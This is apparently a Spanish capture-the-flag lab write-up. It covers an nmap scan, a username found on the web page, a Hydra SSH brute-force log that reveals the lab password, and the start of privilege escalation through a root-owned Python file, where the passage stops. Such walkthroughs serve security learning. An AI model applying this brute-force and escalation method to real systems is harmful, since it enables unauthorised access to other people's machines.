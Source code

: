 
# SCAN
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

# PUERTO 80
Tiene un formulario para mandar comentario pero realmente no hace nada (es un end). Lo unico que nos puede valer es que hay
un usuario que se llama "meliodas" que ha mandado 3 comentarios

# HYDRA
Probamos un ataque de fuerza bruta utilizando como usuario "meliodas". Inmediatamente obtenemos el password:
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-21 12:59:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.43.38:22/
 [STATUS] 179.00 tries/min, 179 tries in 00:01h, 14344223 to do in 1335:36h, 16 active
[22][ssh] host: 10.10.43.38   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
```
Con este password podemos autentificarnos en ssh conseguimos el flag de usuario

# PRIVILEGE ESCALATION

En el directorio del usuario "meliodas" (/home/meliodas) hay un fichero de python "bak.py" creado por root que parece prometedor


